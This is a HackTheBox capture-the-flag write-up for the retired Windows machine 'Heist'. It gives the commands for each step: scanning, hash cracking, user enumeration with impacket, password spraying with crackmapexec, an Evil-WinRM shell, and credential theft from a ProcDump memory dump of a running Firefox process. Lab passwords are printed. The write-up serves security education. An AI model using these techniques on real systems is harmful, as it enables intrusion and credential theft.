




# Heist

```
Platform    : HackTheBox
OS          : Windows
Difficulty  : Easy
Category    : Credential Dumping
IP          : 10.129.96.157
```

---

## Summary

Initial access was gained through leaked credentials found in a support
ticket attachment on a web login page, cracked from an MD5 hash and a
custom wordlist. Those credentials allowed SMB access as a low-privilege
domain user. From there, a running Firefox process on the host turned
out to be storing an administrator's credentials in memory, which were
recovered via a memory dump and used to gain a shell as Administrator.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -Pn --open 10.129.96.157 -oN scan.txt
nmap -p 80,135,445,49669 -sCV 10.129.96.157
```

Key findings:

- **Port 80** — Microsoft IIS 10.0, hosting a "Support Login Page"
  (`login.php`), with a guest login option
- **Port 135/49669** — Microsoft Windows RPC
- **Port 445** — SMB, message signing enabled but not required

The web login page and its guest access were the clear entry point,
given no other services exposed meaningful attack surface.



---

## Enumeration

Logging in as guest on the support portal revealed a ticket with an
attachment.





The attachment contained an MD5 hash and additional
encoded/obfuscated password strings. The MD5 hash was cracked, and
the remaining strings were resolved using a known password-cracking
reference tool ([ifm.net.nz password cookbook](https://www.ifm.net.nz/cookbooks/passwordcracker.html)).



This produced two candidate passwords:

```
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

and two candidate usernames surfaced from the ticket context: `hazard`,
`rout3r`.

User enumeration via Impacket's `lookupsid`, authenticating as `hazard`,
confirmed the domain's user list:

```
impacket-lookupsid hazard:stealth1agent@heist.htb
```

```
500: SUPPORTDESK\Administrator
501: SUPPORTDESK\Guest
1008: SUPPORTDESK\Hazard
1009: SUPPORTDESK\support
1012: SUPPORTDESK\Chase
1013: SUPPORTDESK\Jason
```

---

## Foothold

Credential spraying the recovered passwords against the enumerated
users identified a valid combination for `Chase`:

```
crackmapexec smb 10.129.96.157 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

```
[+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d
```

A shell was obtained via Evil-WinRM:

```
evil-winrm -i 10.129.96.157 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

```
whoami
supportdesk\chase
```

---

## Privilege Escalation

While enumerating the host as Chase, a Firefox installation stood out
as unusual for a support-desk machine, and an active Firefox process
was confirmed running:

```
get-process firefox
```

Since browsers commonly cache session data and credentials in memory,
the process was dumped for offline analysis using Sysinternals'
ProcDump:

```
.\procdump64.exe -accepteula -ma <PID>
```

The resulting memory dump was searched for password-related strings:

```
.\strings64.exe -accepteula firefox.exe_<dump>.dmp 2>$null | Select-String -Pattern "password"
```

This revealed a saved login URL containing the site administrator's
credentials in cleartext:

```
login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ
```

Testing this password against the domain Administrator account
succeeded:

```
crackmapexec smb 10.129.96.157 -u 'administrator' -p '4dD!5}x/re8]FBuZ'
```

```
[+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

Confirmed via Evil-WinRM:

```
whoami
supportdesk\administrator
```

---

## Lessons Learned

- Support/ticketing portals are a common place to find leaked
  credentials or hints buried in old attachments — worth checking even
  when they look like low-value "guest access only" features.
- Password reuse across services (a browser-saved admin password
  reused on SMB/domain auth) was the actual privilege escalation path
  here — not a technical exploit, but a real-world habit that shows up
  constantly in production environments too.
- An unexpected process (Firefox on a server that has no business
  running a browser) is worth investigating — it's an easy signal to
  miss during enumeration if you're only looking for services and
  scheduled tasks.
- Memory dumping a running process with ProcDump + string extraction
  is a reliable, low-noise technique for pulling credentials that
  never touch disk.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
